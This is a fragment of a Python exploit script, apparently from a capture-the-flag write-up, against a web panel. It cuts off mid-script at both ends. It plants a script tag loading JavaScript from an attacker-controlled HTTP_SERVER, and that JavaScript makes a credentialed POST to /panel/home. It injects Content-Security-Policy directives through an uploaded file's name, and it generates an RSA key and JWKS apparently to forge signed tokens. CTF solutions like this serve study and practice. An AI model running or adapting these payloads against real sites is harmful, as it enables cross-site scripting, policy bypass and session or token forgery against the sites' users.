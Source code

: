 ```python

fetch(`/panel/home`, { 
    method: 'POST', 
    credentials: 'include',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'
      },
    body: formBody
})
"""

with open('./test.js', "w") as fh:
    fh.write(js_source)

body['antivirus'] = f"<script src=\"{HTTP_SERVER}/test.js\"></script>"

# change to your image name
f = "file.png"
with open(f, "rb") as fh:
    r = sess.post(
                f"http://{url}:{port}/comms/update/{ID}/{token}", 
                data=body, 
                files={
                        # file name will inject into CSP
                        "image": ("; script-src 'none'; script-src-elem *; img-src blah.png", fh, "text/html")
                }
        )
# debug
print(r.text)

# boilerplate code copied from chal to replicate key gen
private_key = rsa.generate_private_key(
        public_exponent=65537,
        key_size=2048
)

pem_private_key = private_key.private_bytes(
        encoding=serialization.Encoding.PEM,
        format=serialization.PrivateFormat.PKCS8,
        encryption_algorithm=serialization.NoEncryption(),
).decode()

public_numbers = private_key.public_key().public_numbers()
n_base64 = base64.urlsafe_b64encode(public_numbers.n.to_bytes((public_numbers.n.bit_length() + 7) // 8, "big")).rstrip(b"=").decode()
e_base64 = base64.urlsafe_b64encode(public_numbers.e.to_bytes((public_numbers.e.bit_length() + 7) // 8, "big")).rstrip(b"=").decode()

jwks = {
        "keys": [
                {
                        "kty": "RSA",
                        "alg": "RS256",
                        "use": "sig",
                        "kid": "1",
                        "n": n_base64,
                        "e": e_base64
                }
        ]
}

with open('./abcdef', "w") as file:
```